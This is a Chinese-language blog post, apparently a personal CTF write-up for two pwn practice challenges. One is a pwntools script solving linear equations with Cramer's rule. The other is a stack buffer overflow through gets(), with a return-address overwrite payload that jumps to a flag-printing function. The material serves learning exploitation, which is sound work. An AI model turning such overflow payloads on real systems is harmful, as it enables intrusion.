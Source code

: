 ```yaml
---
layout: post
title:  "Pwn CTF Writeup"
date:   2021-01-29 14:41:44 +0800
tags: CTF Writeup
color: rgb(255,90,90)
cover: '/assets/pwn-ctf/cover.png'
subtitle: 'Pwn-CTF Writeup'
---
```

**Intro：**
  : 一個高中生的CTF練習 剛好是我想要學習的PWN所以就跟著高中生一起嗨ＯＵＯ
  : 由於過了一段時間，所以題目順序就～隨性

**Problems：**
- TOC
{:toc}

# Math Teacher
[**Source File**](/assets/pwn-ctf/math-teacher/source){:target="_blank"}

## Discription
{: .no_toc}
- 這題簡單的考你會不會用 pwntools 
- 問100題二元一次方程式，解完就有FLAG

## Solution
{: .no_toc}
- 用克拉馬公式

``` python
def cal():
    f1 = r.recvline()
    f2 = r.recvline()

    print("Function 1: ", f1)
    print("Function 2: ", f2)

    a1 = int(f1[:f1.find(b'x')-3])
    b1 = int(f1[f1.find(b'+')+1:f1.find(b'y')-3])
    c1 = int(f1[f1.find(b'=')+1:])

    a2 = int(f2[:f2.find(b'x')-3])
    b2 = int(f2[f2.find(b'+')+1:f2.find(b'y')-3])
    c2 = int(f2[f2.find(b'=')+1:])

    delta = a1*b2-a2*b1

    if delta == 0:
        x = 0
        y = int(c1/b1)
    else:
        x = int((c1*b2-b1*c2)/delta)
        y = int((a1*c2-c1*a2)/delta)

    r.recvuntil('= ')
    r.sendline(str(x))
    r.recvuntil('= ')
    r.sendline(str(y))
```

# Go Home
[**Source File**](/assets/pwn-ctf/go-home/source){:target="_blank"}

## Discription 
{: .no_toc}
- 先是問你有沒有 Home

  ```shell
  Billy want to go home now.
  Do you know the address of his house ?
  ```
- SourceFile 又有給 Home

  ``` c
  void Billyshouse(){
    system("cat /home/ctf/flag");
  }
  ```

- `<main>` 的 stack長度 < `gets` 能輸入的長度
    ![](/assets/pwn-ctf/go-home/discription-0.png)

\* 0x20 < $$\infty$$ (gets 輸入長度沒有限制)
{: .notify}

## Solution
{: .no_toc}
- 簡單的 **Bof** 蓋過 `<main>` 的 `ret`

這邊有兩個要注意的地方
{: .notify}
  1. ubuntu 20 以後的 stack 對齊
    : 就是蓋過 `ret` 之後跳進 function 裡面的時候stack結尾必須是0x0不能是0x8
  2. `gets` 預設從 `$rbp - 0x20` 開始跳
    : 也就是 ```OFFSET = 0x20 + 0x8```{: .language-ruby}

## Payload
{: .no_toc}
- 1.要跳過的方法有很多，最簡單的就是不要跑 [**Function Prologue**](https://en.wikipedia.org/wiki/Function_prologue) 讓 stack 多了 `0x8` 就好
- 直接跳到 `0x4006ca` 就好

```python
payload = b'A'*0x28 + p64(exe.symbols['Billyshouse']+0x4)
```

# To be done...